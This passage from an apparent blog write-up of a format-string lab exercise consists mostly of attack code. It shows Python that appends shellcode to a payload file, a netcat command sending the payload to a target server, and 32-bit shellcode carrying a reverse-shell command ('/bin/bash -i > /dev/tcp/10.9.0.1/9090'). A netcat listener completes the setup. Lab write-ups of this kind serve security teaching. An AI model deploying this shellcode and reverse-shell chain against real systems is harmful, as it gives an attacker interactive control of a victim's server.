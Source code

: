 ```python
# shellcode
content += shellcode


# Save the format string to file
with open('badfile', 'wb') as f:
  print(f"writing {len(content)} bytes to badfile...")
  f.write(content)
```

```bash
python3 badfile.py
cat badfile | nc -w2 10.9.0.5 9090
```

![task-4-b](https://github.com/iukadike/blog/assets/58455326/6188e926-7bab-4897-a1ff-4699426829fc)


<details><summary>Code explanation</summary></details>

#### Getting a Reverse Shell

Getting a shell is more interesting than running arbitrary commands. The goal of this task is to get a shell on the target server, so we can type any command we want.

To achieve this, all that needs to be edited is the command argument of the bash command in the shell code.

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# existing code continues below
```

Next is to set up a listener...

```bash
nc -nvl 9090
```
